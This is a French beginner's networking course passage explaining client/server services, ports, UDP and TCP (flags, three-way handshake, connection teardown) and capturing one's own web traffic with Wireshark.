Le propre d'un serveur est d'offrir un service. Par exemple, si l'on prend le cas d'un serveur web, son rôle est de mettre à disposition des internautes des pages web. Un serveur de messagerie mettra à disposition des adresses mail ainsi qu'un service d'envoi et de réception de mails.
Le détail d'un serveur
Sans descendre au niveau du fonctionnement basique d'un serveur et du langage de programmation qui a été utilisé pour le créer, nous allons quand même essayer de comprendre le mode de fonctionnement d'un serveur.
Le serveur écoute
Étant donné que le serveur est censé fournir un service accessible tout le temps, on dit qu'il est en écoute. En fait, le serveur va écouter sur le réseau et être prêt à répondre aux requêtes qui lui sont adressées.
Vous pouvez tout à fait le voir sur vos machines virtuelles Linux, ou même sur un autre système d'exploitation avec la commande netstat -an. Le résultat étant un peu un fouillis, je vous propose, sous Linux, d'utiliser l'option -antp.
La colonne Adresse locale nous donne l'adresse IP en écoute, ainsi qu'un numéro que nous ne connaissons pas encore.
La colonne Etat nous indique... l'état du service !
La colonne PID/program name nous indique le numéro du processus en écoute ainsi que son nom.
Si je prends par exemple la seconde ligne, je vois que j'ai un service MySQL qui tourne sur le numéro 3306 de l'adresse IP 127.0.0.1. Son état LISTEN montre qu'il est en écoute, ce qui est bien pour un service.
Vous vous souvenez ? 127.0.0.1 est une adresse IP spéciale, réservée pour une utilisation locale.
Ici, notre serveur MySQL sera injoignable depuis le réseau. Il ne sera joignable que depuis la machine elle-même. Cela évite de rendre un service accessible aux autres si on n'en a besoin que localement.
On peut s'interroger sur deux autres lignes et notamment sur leurs états. Il y a une ligne à l'état ESTABLISHED qui montre que la connexion est établie.
C'est super, cela veut dire que notre machine est en train de fournir un service ! Quelqu'un est connecté sur notre machine !
Enfin, l'état TIME WAIT montre d'anciennes connexions qui sont en cours de terminaison.
Conclusion
On peut donc en déduire qu'un service est un programme qui est en écoute sur une machine. On peut alors appeler cette machine un serveur.
Mais ce service ne servirait à rien s'il n'était pas utilisé, et pour cela, il faut que des clients viennent se connecter dessus et l'utilisent !
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Le client est simplement un programme qui se connecte à un service pour l'utiliser. Vous en connaissez plein, et d'ailleurs vous en utilisez tous les jours !
Oui, en ce moment même vous utilisez un client web qui est votre navigateur et qui se connecte au serveur du Site du Zéro.
C'est bien une connexion client/serveur qui est établie entre votre navigateur et le serveur web du Site du Zéro.
Et j'utilise d'autres clients, sinon ?
Oui, des tas ! Vous utilisez peut-être un client de messagerie comme Outlook, Thunderbird ou Evolution.
Vous pouvez aussi utiliser un client FTP pour le transfert de fichiers, comme Filezilla.
Si vous jouez un peu en ligne, vous utilisez sûrement un client pour vous connecter à votre jeu préféré qui fonctionne sur un serveur sur Internet.
Un client peut-il être serveur ? Et vice versa ?
Oui, bien sûr ! Par exemple, on a vu dans le paragraphe précédent que ma machine était serveur, mais c'est aussi avec cette machine que je me connecte sur des sites web en tant que client. Elle joue donc à la fois le rôle de client et celui de serveur.
Alors il n'y a que des machines qui ont les deux rôles ?
Non, la plupart du temps, les machines serveur ne jouent pas le rôle de client, ou très peu. Elles sont spécialisées en tant que serveur et pour des raisons de sécurité, on limite les services disponibles à ceux qui sont strictement nécessaires, et on évite que cette machine ait une activité de client qui pourrait engendrer des failles.
De la même façon, on considère que les machines des utilisateurs comme vous et moi jouent en majeure partie le rôle d'un client et sont donc vues comme des clients et non des serveurs.
Et Internet là-dedans ?
On peut dire qu'Internet est aujourd'hui massivement basé sur un fonctionnement client/serveur.
Ceci dit, ce n'est pas l'unique façon de se connecter. En peer to peer par exemple, chacun peut prendre le rôle de client et de serveur. De même, le service n'est pas assuré par un seul et unique serveur auquel on s'adresse, mais par tout un ensemble de machines qui possèdent la ressource.
Nous voyons que la notion de client/serveur est très importante pour Internet.
Elle joue notamment un grand rôle dans le modèle OSI et spécifiquement pour la couche 4.
Nous allons donc pouvoir aborder cette couche sereinement dans le prochain chapitre ! :D
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Avec tout ce que nous avons vu jusqu'à maintenant, nous sommes capables de faire dialoguer ensemble des machines d'un bout à l'autre d'Internet.
Mais ça nous fait une belle jambe, car ce que nous voulons c'est pouvoir faire dialoguer une application cliente avec une application serveur. C'est là où la couche 4 entre en jeu, en ajoutant la notion d'application au réseau. C'est elle qui va faire le lien entre la couche applicative et les couches réseau.
Nous allons voir dans ce chapitre les deux protocoles utilisés en couche 4. Eh oui, il n'y en a pas qu'un seul !
Accrochez-vous, c'est encore à un gros chapitre que vous avez affaire !
Grâce à la couche 2, nous savons dialoguer sur un réseau local.
Grâce à la couche 3, nous savons dialoguer entre réseaux.
Nous sommes donc capables de dialoguer entre deux machines sur des réseaux distants, chacune à un bout du monde.
À quoi va donc bien pouvoir nous servir la couche 4 alors ?
Eh bien, notre objectif n'est pas de faire dialoguer ensemble des machines, mais de faire dialoguer ensemble des applications.
Vous vous rappelez le modèle OSI ? La figure suivante devrait vous rafraîchir la mémoire.
Le modèle OSI
Nous voyons très bien ici que le réseau va servir à transporter l'information fournie par les applications. Ainsi, notre objectif est de faire dialoguer des applications qui sont sur des machines, entre elles.
On voit tout de suite l'intérêt d'avoir une couche du modèle OSI qui soit en charge de la communication entre applications.
Le rôle de la couche 4 est donc de gérer les connexions applicatives.
Nous allons maintenant voir comment les protocoles de couche 4 vont faire cela... eh oui, j'ai bien dit LES protocoles de couche 4.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
En couches 2 et 3, nous avions vu qu'il fallait une adresse pour identifier les éléments nécessaires à l'identification des moyens de communication. L'adresse MAC identifie la carte réseau en couche 2, et l'adresse IP identifie l'adresse de notre machine au sein d'un réseau, en couche 3.
Eh bien en couche 4, l'adresse utilisée est le port.
Euh... c'est une adresse ou un port ?
Le port est une adresse. C'est même l'adresse d'une application sur une machine.
Ainsi, nous pourrons identifier toute application qui tourne sur notre machine et qui a besoin de dialoguer sur le réseau.
Si vous vous rappelez, dans le chapitre précédent, j'avais montré que mon serveur MySQL était en écoute sur le numéro 3306.
Nous savons maintenant que ce numéro est en fait le port d'écoute de l'application MySQL. Si je reçois une requête MySQL sur l'adresse IP 127.0.0.1 et sur le port 3306, le service MySQL va pouvoir répondre.
Exemple de port en écoute
Prenons la machine d'adresse 88.191.135.63 sur laquelle je fais un netstat :
Nous voyons ici que le port 80 est en écoute à la ligne 5, et que c'est l'application apache2 qui est un serveur web :
tcp6 0 0 :::80 :::* LISTEN 21800/apache2
Le port 80 est le port utilisé pour les serveurs web. Nous pouvons donc nous douter qu'un serveur web est en écoute sur cette machine ! Il ne nous reste plus qu'à utiliser un client web, soit un simple navigateur, pour nous connecter à cette application.
Essayez sur votre navigateur d'entrer http://88.191.135.63 (voir la figure suivante).
Nous avons entré dans l'URL l'adresse IP 88.191.135.63, et nous avons été redirigés vers mon site www.lalitte.com.
C'est normal, car cette adresse est celle de la machine qui héberge mon site.
C'est normal, car notre navigateur, qui est un client web, fait toujours ses requêtes sur le port 80 si un port n'est pas spécifié.
Toutefois, nous pouvons explicitement spécifier un port dans notre URL, par exemple le port 22 qui était en écoute aussi sur la machine. Dans ce cas, nous allons taper 88.191.135.63:22 dans l'URL pour préciser le port voulu.
Notez que cela ne fonctionnera pas sous Chrome. Vous avez donc le droit de changer de navigateur !
Nous voyons que nous tombons sur un serveur ssh. Ça tombe bien, car le port 22 est le port normalement réservé pour un serveur ssh. :)
Nous verrons plus tard quelle est son utilité, mais dès maintenant, nous pouvons voir que derrière chaque port ouvert sur une machine se cache une application !
Quelles adresses pour les ports ?
Beaucoup de ports !
Les ports sont codés en décimal sur deux octets.
Ils peuvent donc prendre 216 valeurs, soit 65536 valeurs !
Vu que l'on commence l'adressage des ports à 0, nous pourrons avoir des valeurs de ports de 0 à 65535.
Ça fait quand même pas mal, non ?
Donc nous pourrons faire tourner au maximum 65536 applications en réseau sur une machine. Cela devrait aller... mais on peut quand même parfois arriver à saturation, en cas d'attaque, quand quelqu'un envoie des tonnes de paquets sur nos différents ports pour nous saturer.
OK, nous avons donc 65535 ports à notre disposition.
Or, nous avons vu qu'un serveur web devait être sur le port 80. Y a-t-il d'autres ports réservés ?
Oui, il y a quasiment autant de ports réservés que d'applications réseau qui existent.
Liste des ports
Voici une petite liste des ports réservés, et des applications associées, les plus couramment utilisés :
Application
Port réservé
web
80
mail
25
ssh
22
imap
143
proxy
8080
https
443
Counterstrike
27015
ftp
20/21
dns
53
jeux Blizzard
6112
Si vous ne connaissez pas ces applications, ce n'est pas grave, nous les découvrirons pour la plupart dans la suite de ce cours.
Il y a donc 65535 ports réservés pour les applications ?
Non, seule une partie d'entre eux sont réservés. D'ailleurs, historiquement, ce n'était que les ports inférieurs à 1024 qui étaient réservés. Mais aujourd'hui, beaucoup d'applications qui sortent utilisent des ports au-delà de 1024.
À quoi peuvent bien servir les ports au-dessus de 1024 alors ?
C'est une très bonne question ! Nous avons dit que le port était l'adresse d'une application. Et nous avons vu que les ports étaient notamment utilisés pour les applications serveur, les services.
Mais quid des applications clientes ? Ont-elles aussi une adresse avec un port ?
Eh bien les applications clientes ont des ports, elles aussi, mais ils ne sont pas réservés.
Les ports attribués aux applications clientes sont donnés aléatoirement, au-dessus de 1024, par le système d'exploitation.
Ce n'est pas gênant. Pour un serveur, vu qu'il est en écoute en permanence, il est important que l'on connaisse le port auquel on doit s'adresser. Pour un client, l'application ne va être en écoute que le temps de son fonctionnement. Ainsi, il peut être choisi au hasard tant que le système d'exploitation sait quelle application se trouve derrière quel port. Prenons un exemple.
Nous nous connectons avec notre navigateur préféré vers notre site préféré www.siteduzero.fr . ;)
Au moment où notre navigateur envoie la requête, un port va être demandé au système d'exploitation pour la connexion vers le Site du Zéro. Le système lui attribue le port 43645 (aléatoirement, ce port n'a aucune signification particulière).
Désormais, l'application navigateur web est en écoute sur le port 43645 pour pouvoir recevoir les réponses que va lui envoyer le Site du Zéro.
La requête est envoyée sur le port 80 du Site du Zéro (là, le port n'est pas aléatoire puisqu'on s'adresse à un serveur qui a un port réservé) qui va recevoir la requête, la traiter, et répondre à notre navigateur sur le port 43645.
Pour illustrer cet exemple, je vais aller faire un tour sur mon site préféré, et regarder au niveau de ma machine si un port a été ouvert.
Mais comment voir les ports ouverts ?
Vous vous souvenez ? Nous l'avons déjà fait, il s'agit de la commande netstat, plus exactement netstat -an pour Windows et Mac, et netstat -antp pour Linux.
En couche 2 comme en couche 3, nous n'avons vu qu'un seul protocole de transport des données (Ethernet pour la couche 2, et IP pour la couche 3).
Alors pourquoi la couche 4 aurait-elle besoin de deux protocoles ?
En fait, les gens qui ont créé les réseaux se sont rendu compte qu'il pouvait y avoir deux besoins différents pour le transport des données des applications :
des applications qui nécessitent un transport fiable des données, mais qui n'ont pas de besoin particulier en ce qui concerne la vitesse de transmission ;
des applications qui nécessitent un transport immédiat des informations, mais qui peuvent se permettre de perdre quelques informations.
Avez-vous une idée des applications qui font partie de la première catégorie et de celles qui sont dans la seconde ?
La première catégorie regroupe une très grande majorité des applications d'Internet, car bon nombre d'entre elles ont besoin que chaque paquet émis soit reçu coûte que coûte !
Ce sont notamment les applications comme le web, la messagerie, le ssh, beaucoup de jeux en ligne, etc.
Si un paquet est perdu, une page web ne pourra pas s'afficher correctement, ce sera pareil pour un mail, etc.
La seconde catégorie regroupe moins d'applications, mais vous comprendrez vite pourquoi ces applications ont besoin d'être instantanées et peuvent se permettre qu'un paquet ne soit pas reçu. Il s'agit notamment des applications de streaming, comme la radio ou la télé sur Internet.
Pour une radio en ligne, il est essentiel que les informations soient envoyées en temps réel, le plus rapidement possible. Par contre, si un ou plusieurs paquets sont perdus, on ne va pas arrêter la radio pour autant. L'utilisateur aura des coupures de connexion, mais la radio continuera d'émettre.
On identifie donc ainsi deux besoins bien distincts l'un de l'autre :
un protocole fiable mais sans nécessité de rapidité ;
un protocole rapide sans nécessité de fiabilité.
C'est pour cela que nous avons deux protocoles pour la couche 4 : le protocole TCP et le protocole UDP.
TCP est de la première catégorie, c'est un protocole extrêmement fiable.
Chaque paquet envoyé doit être acquitté par le receveur, qui en réémettra un autre s'il ne reçoit pas d'accusé de réception. On dit alors que c'est un protocole connecté.
On peut le comparer au téléphone. Quand on appelle quelqu'un, on dit "Allo ?" pour savoir si la personne est là et, s'il y a des silences dans la communication, on essaye de voir si la personne est encore à l'écoute, etc. En TCP ce sera pareil, pour chaque information envoyée, on vérifiera que la machine en face l'a bien reçue.
UDP, lui, est un protocole rapide, mais peu fiable. Les paquets sont envoyés dès que possible, mais on se fiche de savoir s'ils ont été reçus ou pas. On dit qu'UDP est un protocole non-connecté.
C'est un peu comme le courrier (sauf que le courrier n'est pas rapide...) On envoie notre lettre, et ensuite, on prie très fort pour que celle-ci arrive, mais on n'en sait rien. :o
Regardons d'un peu plus près chacun de ces protocoles.
UDP, la simplicité
UDP est le protocole le plus simple auquel vous aurez affaire en réseau. Étant donné que les objectifs associés à sa mise en œuvre sont la rapidité et la non-nécessité de savoir si une information est bien reçue, le format des messages envoyés sera très simple !
Le datagramme UDP
Eh oui, on dit datagramme comme pour le message de couche 3 du protocole IP. C'est normal, car datagramme veut dire, en gros, message envoyé dont on ne sait rien sur la bonne transmission ou réception. Voici le contenu d'un datagramme UDP :
Port Source
Port Destination
Longueur totale
Checksum
Données à envoyer
Datagramme UDP
Nous avons ici seulement 4 informations pour l'en-tête UDP. Chacune faisant 2 octets, cela nous fait un en-tête de seulement 8 octets !
C'est le plus petit en-tête que nous ayons vu, et que nous verrons.
Étudions ces champs un par un.
Pour le port source, c'est simple, c'est l'adresse de l'application qui envoie l'information.
Pour le port destination, c'est l'adresse de l'application destinataire.
Ensuite, il y a un champ de 2 octets qui représente la taille d'un datagramme, ce qui veut dire que la taille maximum d'un datagramme sera de 216 soit 65536 octets. Cependant, dans la réalité, il est très rare de voir des datagrammes UDP de plus de 512 octets. Ceci est notamment dû au fait que perdre un petit datagramme est acceptable, mais en perdre un gros est plus gênant, vu qu'UDP n'a pas de gestion des paquets perdus.
Pour le checksum, ou CRC, le principe est le même que pour la couche 2 : s'assurer que les données reçues sont bien les mêmes que celles qui ont été transmises.
Tiens, tiens, une question ne vous vient-elle pas à l'esprit ? Non ?
Pourquoi avoir un CRC pour le protocole UDP alors qu'il y en a déjà un pour la couche 2 avec le protocole Ethernet ?
En effet, si vous avez bien compris le principe d'encapsulation, vous savez que le datagramme UDP est à l'intérieur de la trame Ethernet, et donc que le CRC de la trame vérifie les données de la couche 4 du protocole UDP.
Pourquoi alors, faire ce CRC deux fois ?
Eh bien la réponse se trouve dans le modèle OSI.
Si vous vous souvenez bien, une des règles associées au modèle OSI est que chaque couche est indépendante. Ainsi, ce n'est pas parce que la couche 2 avec le protocole Ethernet fait un CRC, que la couche 4 ne doit pas en faire, de même que la couche 3.
Étant donné que chacune des couches n'est pas censée savoir qu'une autre couche fait un CRC, chacune implémente son propre CRC.
Les applications qui utilisent UDP
Comme prévu, les applications de streaming vont, en énorme majorité, utiliser UDP, comme la radio sur Internet, la télé sur Internet, etc.
On l'utilise aussi pour la téléphonie sur Internet, plus connue sous le nom de VoIP (Voice Over Internet Protocol) ou ToIP (Telephony Over IP).
Mais on utilise aussi UDP pour transporter deux protocoles majeurs d'Internet que sont le DNS et le SNMP. Nous verrons ces deux protocoles dans les prochains chapitres, ne vous inquiétez pas. Vous savez dès maintenant que ce sont deux exceptions qui utilisent UDP parmi la multitude d'applications qui utilisent TCP.
Que dire d'autre sur UDP ?
Rien. UDP est un protocole simple, aussi simple que la longueur de ce paragraphe... :)
TCP, tout envoi sera acquitté !
C'est dans le titre, le principe de TCP est d'acquitter chaque octet d'information reçue.
À l'inverse d'UDP, il y aura beaucoup d'informations dans l'en-tête TCP pour parvenir à suivre une connexion correctement.
Mais nous n'allons pas tout de suite nous pencher dessus. Nous allons d'abord voir les principes de base de TCP.
Avant de communiquer, on assure la communication.
Prenons une conversation téléphonique. Avant de raconter son histoire, l'interlocuteur va d'abord s'assurer que son partenaire est bien présent au bout du fil. Cela donne:
Paul appelle : Tut... tut...
René répond : Allo ?
Paul commence sa conversation : Allo, salut c'est Paul !
On voit très clairement ici qu'il faut établir la communication avant de parler du sujet. Il en sera de même en TCP.
Les trois premiers paquets envoyés ne serviront qu'à établir la communication. Comme le allo, ce seront des paquets vides qui ne sont là que pour s'assurer que l'autre veut bien parler avec nous.
Comme le téléphone, une connexion TCP va se dérouler comme suit :
Tu veux bien dialoguer avec moi ?
Oui, je suis OK.
OK, bien reçu, on commence la discussion.
Pour cela TCP va utiliser des informations dans son en-tête pour dire si un paquet correspond à une demande de connexion ou si c'est un paquet normal.
Les drapeaux
Étant donné que les paquets qui vont être envoyés pour initialiser la connexion seront vides (ils ne contiendront pas de données) il faudra une information présente dans l'en-tête pour indiquer si c'est une demande de connexion, une réponse ou un acquittement (un acquittement sera une réponse vide qui servira simplement à dire à la machine en face que l'on a bien reçu ses informations, comme quand on dit "han han..." au téléphone pour bien spécifier que l'on écoute ce que dit notre interlocuteur).
Pour cela, il va y avoir ce que l'on appelle des drapeaux (ou flags en anglais) dans l'en-tête TCP. Les drapeaux ne sont rien d'autre que des bits qui peuvent prendre la valeur 0 ou 1. Ainsi, il y aura dans l'en-tête TCP des bits qui vont indiquer quel est le type du message TCP envoyé.
Établissement de la connexion
Le premier paquet sera une demande de synchronisation, comme le allo au téléphone, le flag correspondant est le flag SYN (SYN pour synchronisation !). Tous les flags sont connus sous leur forme courte, de trois lettres seulement.
Ainsi, si je veux me connecter à une application serveur qui fonctionne avec TCP, je vais envoyer un paquet avec le flag SYN positionné pour lui indiquer que je veux dialoguer avec elle, c'est l'équivalent d'un "Tu veux bien dialoguer avec moi ?".
Un serveur recevant une demande SYN doit normalement répondre qu'il est d'accord pour communiquer avec le client. Pour cela il va envoyer un ACK en réponse (ACK comme acquittement, ou acknowledgement en anglais).
MAIS, il va, à son tour, demander si le client veut bien communiquer avec lui et positionner aussi le flag SYN dans sa réponse. Il y aura donc les flags SYN ET ACK positionnés dans sa réponse.
Euh, mais si le client a demandé à communiquer avec le serveur, pourquoi le serveur lui demande s'il veut bien communiquer avec lui ?
Eh bien la réponse à cette question est primordiale pour comprendre TCP.
Quand on veut communiquer en TCP, on n'établit pas une, mais deux connexions.
Car TCP considère qu'il va y avoir une communication dans un sens, et une communication dans l'autre sens. Il établit donc une connexion pour chaque sens de communication.
Ainsi, quand le serveur répond à la requête SYN, il acquitte la demande avec le ACK, et fait une demande de connexion pour l'autre sens de communication, du serveur vers le client, en positionnant le flag SYN. La réponse a donc les flags SYN ET ACK positionnés.
Toutefois, notre connexion n'est pas encore établie... Il faut encore que le client accepte la demande de connexion faite par le serveur. Le client va donc renvoyer un paquet avec un flag ACK.
Cela donne le résultat que vous pouvez voir en figure suivante.
3 Way Handshake
Nous voyons bien ici la différence entre la communication bleue de A vers B et la communication rouge de B vers A.
On voit d'ailleurs les couleurs des flags associés : en bleu, le premier SYN pour la demande de connexion de A vers B et le ACK dans la réponse pour acquitter la demande de connexion de A vers B ; en rouge le SYN pour la demande de connexion de B vers A et l'acquittement ACK dans le dernier paquet.
L'établissement de la connexion TCP s'est donc fait par l'échange de trois paquets. C'est pour cela qu'on l'appelle Three Way Handshake ou poignée de main tripartite en français (mais tous les spécialistes utilisent le terme anglais, comme souvent en réseau)
Continuation de la connexion
Maintenant que la communication est établie, les applications peuvent s'échanger des paquets autant qu'elles le veulent !
Le principe au niveau des flags est simplement d'avoir positionné le flag ACK. Donc tout paquet échangé après l'établissement de la connexion n'aura que le flag ACK de positionné. Presque, car nous n'avons vu que deux flags pour l'instant...
Néanmoins, ce qui est sûr, c'est que le flag ACK sera positionné sur tous les paquets, pour acquitter la réception des paquets précédents.
Voyez en figure suivante le schéma de la continuité d'une connexion.
Continuité de la connexion
Fin de la connexion
Toutes les bonnes choses ont une fin, et les connexions TCP aussi ! :p
Une fois que les applications ont terminé leur communication, il faut encore fermer la connexion.
Eh oui, on ne va pas laisser la connexion indéfiniment ouverte ! Si nous ne les libérions jamais, nos ports seraient rapidement tous utilisés.
Donc, de la même façon que l'on a utilisé des paquets vides et des flags pour établir une connexion, nous allons faire de même pour la clôturer.
Le flag que l'on va utiliser alors, à l'opposé de SYN, est le flag FIN.
Imaginons que le client veuille fermer la connexion, il envoie donc un paquet avec le flag FIN positionné.
Donc il n'y a que le flag FIN de positionné ?
Non, car comme nous l'avons vu, dès lors qu'une connexion est établie, tout paquet contiendra un flag ACK pour acquitter le paquet précédent. Donc lorsque l'on demandera la fermeture de la connexion avec le flag FIN, on en profitera pour acquitter le paquet précédent reçu en ajoutant aussi le flag ACK. La demande de fermeture contiendra donc les flags FIN et ACK.
Le serveur pourra ensuite, lui aussi, demander la fermeture de la communication dans l'autre sens, et acquitter la réception de la demande de fin. Il placera donc, lui aussi, les flags FIN et ACK.
Super ! Et là, notre connexion est fermée ?
Pas encore ! Le serveur a demandé la fermeture de la communication dans le sens serveur -> client, mais le client ne lui a pas encore acquitté cette demande. Si jamais ce paquet était perdu, le serveur et le client continueraient à avoir leur connexion ouverte. Il faut donc que le client réponde au serveur qu'il a bien reçu sa demande de fermeture en envoyant un dernier paquet ACK. C'est seulement à ce moment que la connexion est fermée complètement et que les ressources des machines sont libérées (voir la figure suivante).
Terminaison de la connexion
Nous venons donc de voir comment se déroulait une connexion TCP : l'établissement à l'aide du three way handshake, la continuation et la fermeture. Il nous reste à voir les détails de l'en-tête TCP et notamment les flags dont nous avons parlé.
Le segment TCP
Voici un nouveau terme pour nous : le segment TCP.
Nous avions la trame Ethernet, le datagramme IP, le datagramme UDP, et nous avons maintenant le segment TCP.
Nous n'allons pas encore représenter en détail toutes les informations de l'en-tête du segment TCP mais nous allons nous concentrer sur les éléments qui nous intéressent. Nous verrons par la suite le détail de celui-ci. N'ingurgitons pas tout d'un coup, au risque de faire une indigestion !
Voici donc la bête:
Port Source
Port Destination
???
Flags
???
Checksum
???
Données à envoyer
Segment TCP
Nous pouvons voir qu'il reste encore quelques points d'interrogation, mais ne vous inquiétez pas, nous les détaillerons par la suite.
L'en-tête fait 20 octets, comme celui de la couche 3.
Faisons le détail de ce que nous pouvons voir.
port source et port destination, on connaît !
les flags,
ils sont au nombre de 6 et nous en connaissons déjà 3 ;
SYN
ACK
FIN
RST
PSH
URG
enfin, le checksum que nous connaissons aussi.
Il nous reste trois flags à expliciter, sachant que RST a une importance plus forte que les deux autres.
Nous verrons dans un prochain chapitre qu'en TCP chaque octet de données envoyé doit être acquitté. Si jamais il y a une incohérence entre les données envoyées et les données reçues, la connexion est considérée comme anormale et la machine qui s'en rend compte doit prévenir l'autre pour arrêter la connexion et en mettre en place une nouvelle.
Cela se fait grâce au flag RST.
Si deux machines A et B ont établi une connexion TCP et qu'après quelques échanges la machine A se rend compte qu'il y a une incohérence dans la connexion, elle va envoyer un paquet contenant le flag RST pour indiquer l'incohérence et demander à la machine B de clore la connexion.
Donc pour une fois, la connexion ne sera pas terminée par la séquence FIN+ACK, FIN+ACK, ACK.
De la même façon, si j'envoie un paquet SYN sur le port d'une machine qui est fermé, celle-ci doit me répondre RST pour me signifier que le port demandé n'est pas en écoute.
Les flags PSH et URG peuvent être positionnés pour indiquer que le paquet doit être traité en priorité par la machine destinataire, mais nous ne détaillerons pas plus leur utilisation, car elle n'est pas nécessaire pour comprendre le fonctionnement des réseaux. Si vous souhaitez en savoir plus, je vous invite à jeter un coup d’œil au lien suivant.
Nous avons donc vu, en partie pour l'instant, le contenu d'un segment TCP ainsi que le suivi des connexions. Nous allons maintenant présenter un cas un peu plus concret pour bien fixer les idées.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Après avoir étudié la théorie, nous allons passer à la pratique et voir concrètement les segments qui sont échangés lors d'une communication entre un client et un serveur. Nous verrons aussi dans cette partie comment utiliser un logiciel qui permet d'écouter ce qui passe sur le réseau, un sniffer.
Wireshark, l'explorateur du réseau
Présentation de l'outil
Wireshark est un programme qui permet d'écouter ce qui passe sur le réseau et qu'on appelle communément un sniffer (prononcer sniffeur).
Concrètement, Wireshark récupère les paquets réseau qui arrivent sur votre carte et interprète leur contenu intelligemment pour vous les présenter. Il permet ainsi de voir tous les paquets à destination de votre carte réseau.
En effet, tous les paquets qui passent sur votre carte réseau ne sont pas obligatoirement à destination de votre machine. C'est le cas des broadcasts par exemple, ou si jamais vous êtes un routeur et que des paquets transitent par vous. De la même façon, sur un réseau commuté (où les machines sont reliées entre elles avec un switch) nous ne verrons pas passer tous les paquets réseau, mais seulement ceux qui sont à destination de notre carte (ceux qui ont pour adresse MAC destination celle de notre carte ou le broadcast).
Donc Wireshark va recevoir les 0 et les 1, et comme il connaît les protocoles réseau, il sera capable de les interpréter et de nous les présenter joliment !
Voici à la figure suivante un exemple de ce que peut nous présenter Wireshark.
Exemple Wireshark
On peut y avoir plein de lignes avec tout plein de caractères !
Chacune de ces lignes a une signification et un sens. Nous allons maintenant les étudier.
Présentation de la fenêtre Wireshark
La fenêtre se compose en gros de quatre parties :
les menus et commandes ;
la présentation résumée des paquets reçus ;
la présentation détaillée d'un paquet ciblé ;
le contenu hexadécimal du paquet.
Menus et commandes
Le menu présenté en figure suivante est essentiellement composé des actions que nous pouvons faire avec Wireshark. Dans notre cas, nous ne nous servirons que de quelques actions.
Menu Wireshark
Il y a cependant une partie qui peut être importante pour nous, c'est la partie filter. Nous pouvons filtrer ici les informations affichées par Wireshark en fonction de certains critères, comme par exemple les adresses ou les ports. Cela permet notamment de suivre plus facilement une connexion TCP de A à Z sans avoir tous les paquets parasites qui peuvent circuler sur le réseau. Nous l'utiliserons par la suite.
On peut voir en figure suivante la liste résumée des paquets reçus avec les adresses IP source et destination, le dernier protocole encapsulé ainsi que quelques informations sur le contenu du paquet.
Présentation résumée Wireshark
La présentation détaillée d'un paquet ciblé est la partie qui va nous permettre de voir en détail le contenu des en-têtes (voir la figure suivante). Wireshark pourra interpréter tout le contenu de chaque en-tête et nous pourrons ainsi distinguer les informations contenues dans chaque paquet.
Présentation détaillée
Le contenu hexadécimal du paquet est un peu plus complexe : c'est le contenu brut du paquet non interprété par Wireshark (voir la figure suivante). Cela peut être utile si l'on veut voir le contenu réel d'un paquet et pas seulement ce que Wireshark interprète. Il peut y avoir des différences...
Contenu hexadécimal
Passons maintenant à l'étude complète d'une connexion. Pour cela, vous devez installer Wireshark !
Sous Linux, je vous invite à utiliser votre gestionnaire de paquets préféré : # apt-get install wireshark.
Il ne nous reste plus qu'à lancer le logiciel.
Lancement de la connexion et du sniffer
Nous allons essayer de sniffer toute une connexion entre notre machine et un serveur sur Internet. Pour cela, je vous propose une connexion vers votre site préféré. ;)
Dans Wireshark, nous allons choisir sur quelle interface réseau nous voulons récupérer le trafic. Il est possible que vous ayez plusieurs interfaces réseau, comme une carte Ethernet ET une carte wifi. Dans ce cas, il faudra bien expliciter sur quelle carte réseau passe le trafic Internet.
Pour cela, nous allons cliquer dans le menu Capture, puis Interfaces, comme indiqué sur la figure suivante.
Capture interface Wireshark
Une fenêtre s'ouvre en nous montrant nos différentes interfaces disponibles (voir la figure suivante). Nous allons cliquer sur Start pour commencer la capture, en choisissant l'interface qui reçoit le trafic Internet (celle qui reçoit des paquets en fait, en1 chez moi).
Interfaces Wireshark
Dès que vous avez cliqué, la capture commence et vous devriez commencer à voir s'afficher les paquets reçus par votre carte réseau. Vous pouvez maintenant aller sur votre navigateur préféré et commencer une connexion vers www.siteduzero.com.
Attendez que la page soit affichée, et retournez dans Wireshark pour arrêter la capture en appuyant sur le menu Capture, puis Stop.
Vous devriez maintenant avoir reçu quelques paquets réseau que nous allons analyser ensemble. Mais avant cela, nous allons essayer de faire le tri dans tous les paquets reçus. En effet, il arrive souvent qu'il y ait beaucoup de trafic réseau et que les paquets qui nous intéressent soient perdus parmi les autres. Il est alors possible dans Wireshark de donner des critères pour filtrer les paquets présentés.
Pour cela, nous allons indiquer un filtre dans la partie filter. Par exemple, nous ne voulons afficher que les paquets qui contiennent l'adresse IP du Site du Zéro, 80.248.210.229. Nous allons donc indiquer dans le filtre ip.addr == 80.248.210.229.
Filtre Wireshark
Cliquez sur Apply afin d'appliquer le filtre.
Vous ne devriez voir maintenant que les paquets qui concernent votre connexion avec le Site du Zéro.
Connexion siteduzero.com
Nous voyons bien dans la colonne info que les trois premiers paquets sont des paquets TCP ayant successivement les flags SYN, SYN+ACK et ACK. La connexion est donc bien initialisée !
Nous allons maintenant étudier quelques-uns de ces paquets en détail.
Étude des paquets
Nous allons cliquer sur le premier paquet SYN et observer son contenu.
Dans la fenêtre juste en dessous, celle de présentation détaillée d'un paquet, nous voyons les différentes couches de notre paquet représentées.
Détail d'un paquet complet
La première ligne représente notre paquet de façon brute, la couche 1 du modèle OSI, les 1 et les 0 en somme !
La seconde ligne représente la couche 2 du modèle OSI, on peut y voir notamment les adresses MAC.
La troisième ligne représente la couche 3 du modèle OSI, et on y voit notamment les adresses IP.
Enfin, la quatrième ligne représente la couche 4 du modèle OSI, et on y voit les ports TCP.
Euh... mais... il n'y a pas de couche 7 applicative ?
Eh bien non, pas encore. En effet, avant de pouvoir échanger nos données applicatives, il faut que la connexion TCP soit établie. Il faut donc que notre three way handshake soit terminé. Ce sont donc seulement des segments TCP qui sont d'abord échangés, et seulement ensuite, le quatrième paquet de la connexion devrait contenir des données applicatives.
Nous allons maintenant regarder en détail le contenu de chaque couche.
Commençons par la couche 2:
Détail de la couche 2
Comme nous pouvions nous y attendre, nous voyons les éléments que nous connaissons déjà, car nous les avons vus en étudiant la couche 2, souvenez-vous !
Adresse MAC DST
Adresse MAC SRC
Protocole de couche 3
Données à envoyer
CRC
Trame Ethernet
Nous voyons bien l'adresse MAC destination, puis l'adresse MAC source, et enfin le protocole de couche 3 utilisé, qui est ici IP.
